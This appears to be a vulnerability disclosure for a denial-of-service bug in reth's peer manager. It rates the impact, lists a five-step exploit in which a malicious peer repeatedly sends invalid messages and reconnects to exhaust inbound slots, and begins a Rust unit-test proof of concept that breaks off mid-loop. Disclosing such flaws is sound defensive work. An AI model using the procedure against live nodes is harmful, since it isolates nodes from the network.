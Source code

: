 * "Shutdown of less than 10% of network processing nodes without brute force actions, but does not shut down the network" - No new incoming peers will be accepted, so this processing node could potentially no longer propagate or receive new transactions, effectively shutting down the node

## References

https://github.com/paradigmxyz/reth/blob/v1.1.5/crates/net/network/src/peers.rs

## Link to Proof of Concept

https://gist.github.com/knagaitsev/8dde801c932ebdca1d9c84de4343d596

## Proof of Concept

## Proof of Concept

The exploit follows this procedure:

1. Start a normal reth node (the target)
2. Start a malicious node
3. The normal reth node adds the malicious node as a peer
4. The malicious node repeatedly sends an invalid message, then reconnects, until it passes the banned threshold
5. The malicious node keeps trying to reconnect, incrementing the incoming peer counter until the DoS condition is reached

### Unit Test PoC

This PoC unit test should be added to `crates/net/network/src/peers.rs`:

```rust
#[tokio::test]
async fn test_ban_dos_bug() {
    let peer = PeerId::random();
    let socket_addr = SocketAddr::new(IpAddr::V4(Ipv4Addr::new(127, 0, 1, 2)), 8008);
    let config = PeersConfig::test().with_max_inbound(3);
    let mut peers = PeersManager::new(config);
    peers.add_peer(peer, PeerAddr::from_tcp(socket_addr), None);

    match event!(peers) {
        PeerAction::PeerAdded(peer_id) => {
            assert_eq!(peer_id, peer);
        }
        _ => unreachable!(),
    }
    match event!(peers) {
        PeerAction::Connect { peer_id, .. } => {
            assert_eq!(peer_id, peer);
        }
        _ => unreachable!(),
    }

    poll_fn(|cx| {
        assert!(peers.poll(cx).is_pending());
        Poll::Ready(())
    })
    .await;

    // get peer.is_banned() to be true without ending up on the ban_list
    loop {
        peers.on_active_session_dropped(
            &socket_addr,
            &peer,
```